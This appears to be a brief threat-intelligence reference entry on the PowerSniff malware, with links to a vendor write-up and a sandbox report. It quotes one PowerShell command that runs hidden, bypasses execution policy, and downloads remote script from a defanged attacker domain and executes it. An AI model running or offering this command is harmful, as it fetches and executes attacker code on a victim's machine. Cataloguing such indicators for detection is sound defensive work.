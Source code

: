 ## PowerSniff


#### Commands
---

* Powershell.exe

1.
```
-ExecutionPolicy Bypass -WindowStyle Hidden -noprofile -noexit -c if ([IntPtr]::size -eq 4) {(new-object Net.WebClient).DownloadString('http://rabbitons[.]pw/cache') | iex } else {(new-object Net.WebClient).DownloadString('http://rabbitons[.]pw/css') | iex}
```


#### Regular Expressions
---



#### Resources
---

Technical write-ups:
* https://researchcenter.paloaltonetworks.com/2016/03/powersniff-malware-used-in-macro-based-attacks/

Sandbox reports:
* https://www.hybrid-analysis.com/sample/a8663becc17e34f85d828f53029ab110f92f635c3dfd94132e5ac87e2f0cdfc3?environmentId=4

Notes:



 

